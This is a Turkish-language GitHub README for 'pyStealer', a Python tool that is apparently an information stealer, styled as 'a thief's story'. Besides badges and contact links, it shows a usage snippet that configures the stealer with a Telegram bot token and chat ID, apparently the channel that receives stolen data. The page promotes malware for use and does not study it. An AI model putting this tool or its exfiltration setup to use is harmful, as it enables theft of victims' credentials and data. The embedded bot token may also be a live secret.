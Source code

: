# pyStealer

![Repo Boyutu](https://img.shields.io/github/repo-size/keyiflerolsun/pyStealer) ![Views](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/keyiflerolsun/pyStealer&title=Profile%20Views) [![Gitpod ready-to-code](https://img.shields.io/badge/Gitpod-ready--to--code-blue?logo=gitpod)](https://gitpod.io/#https://github.com/keyiflerolsun/pyStealer)

**Bir Dız Hikayesi**

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![ForTheBadge built-with-love](http://ForTheBadge.com/images/badges/built-with-love.svg)](https://GitHub.com/keyiflerolsun/)

## 🚀 Kullanım

```python
from pyStealer import pyStealer

pyStealer(
    bot_token = "1205885111:AAEHH1y7BoR4WmRHmOdJVEk2Ai30lhuvukw",
    chat_id   = 717569643
)
```

## ♻️ İletişim

*Benimle iletişime geçmek isterseniz, **Telegram**'dan mesaj göndermekten çekinmeyin;* [@keyiflerolsun](https://t.me/keyiflerolsun)

##

> **[@KekikAkademi](https://t.me/KekikAkademi)** *için yazılmıştır..*
